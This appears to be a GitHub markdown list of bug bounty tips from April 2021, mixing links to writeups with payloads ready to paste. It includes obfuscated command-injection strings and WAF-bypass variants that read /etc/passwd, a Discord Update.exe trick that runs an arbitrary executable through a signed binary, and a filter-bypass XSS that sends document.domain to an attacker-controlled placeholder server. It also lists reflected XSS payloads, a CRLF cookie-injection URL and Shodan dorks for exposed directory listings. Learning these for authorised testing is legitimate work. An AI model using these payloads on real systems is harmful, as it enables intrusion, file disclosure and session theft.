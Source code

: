 # Bug Bounty Tips - April 2021

# 📅 01-Apr-2021
## Exploiting Account TakeOver => CSRF + CORS
- https://nirajmodi51.medium.com/missing-cors-leads-to-complete-account-takeover-1ed4b53bf9f2

## MindAPI 
Organize your API security assessment by using MindAPI. It's free and open for community collaboration.
- https://github.com/dsopas/MindAPI

## Bug Bytes 116
- https://blog.intigriti.com/2021/03/31/bug-bytes-116-new-oauth-attacks-hacking-shopify-with-a-single-dot-netmask-ssrf/

# 📅 02-Apr-2021
## Facebook Account Takeover writeups
- https://ysamm.com/?p=654
- https://ysamm.com/?p=646

## Dangerous Functions | Binary Exploitation 0x01
- https://youtu.be/EJtUW2AklVs

# 📅 05-Apr-2021
## Shodan Dorks
Everyone knows how to find Directory Listing Using Google Dorks Right?
Dork - intitle:"Index of /"

We can do the same with Shodan to find even more Directory Listings!

Dork- `http://ssl.cert.subject.CN:"*target.*" 200 http.title:"Index of /"`

## Obfuscation Random characters

### Payloads

```sh
$aaaaaaa/bin$bbbbbb/cat$ccccccc $dddddddd/etc$eeeeeee/passwd$ggggggg

$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```
### Proof of Concept
![img](https://pbs.twimg.com/media/EyMKkZWVEAAInk9?format=png&name=small)
![img](https://pbs.twimg.com/media/EyMKkZXUYAIaclN?format=png&name=large)
***Source: https://twitter.com/sec715/status/1378957974790492160?s=20***

# 📅 07-Apr-2021
## RCE on Windows Application

Copy your payload into `%userprofile%\AppData\Local\Discord\Current\`

Then

```cmd
%userprofile%\AppData\Local\Discord\Update.exe --processStart payload.exe --process-start-args "whatever args"
```

Trusted signed binary will run the payload for you Smiling face with smiling eyes

***Source: https://twitter.com/smelly__vx/status/1379519938197655566?s=20***

# 📅 08-Apr-2021
## Facebook account takeover due to a wide platform bug in ajaxpipe responses
- https://ysamm.com/?p=654

## RCE WAF Bypass

```sh
;+$u+cat+/etc$u/passwd$u
;+$u+cat+/etc$u/passwd+\#
/???/??t+/???/??ss??
/?in/cat+/et?/passw?
```

# 📅 09-Apr-2021
## Writing Network Templates with Nuclei
- https://t.co/TiE9cg5p2K?amp=1

## Cloudflare bypass all browsers.
```js
<svg/onload=location/**/='https://your.server/'+document.domain>
```

# 📅 12-Apr-2021
## Bypassing root detection , certificate pinning using https://github.com/Ch0pin/medusa  anti_debug and unpinner modules 
@Einstais @mobilesecurity_
- https://twitter.com/Ch0pin/status/1381216805683924994?s=20

## XSS Bypass Tip
Hot XSS tip: did you know `window.alert?.()` and `(window?.alert)` will pop an alert? The ?. is a feature called optional chaining and as far as I can tell it's not in any popular XSS payload lists. Worth trying if you're looking for filter bypasses!
![img](https://pbs.twimg.com/media/EygnbstWUAAodo0?format=png&name=small)

## XSS Payload via email
`hello"><img/src="x"onerror=alert(document.domain)>@mail.com`
***source : https://hackerone.com/reports/1107726***

### XSS on glassdoor
```js
"&gt;&lt;img+src+onerror=confirm&amp;#x00028;1&amp;#x00029;&gt;
```
***Source : https://hackerone.com/reports/789689***

## CRLF Injection
- https://hackerone.com/reports/1038594
### Example
```text
https://www.abc.com/%0D%0ASet-Cookie:crlfinjection=crlfinjection
```

## Reflected XSS Successfull payloads
```js
<b onmouseover=alert('Wufff!')>click me!</b>
"><script>propmt("mamunwhh")</script>
"><script>alert(document.cookie)</script>
/><svg src=x onload=confirm("1337");>
"><div onmouseover="alert('XSS');">Hello :)
```


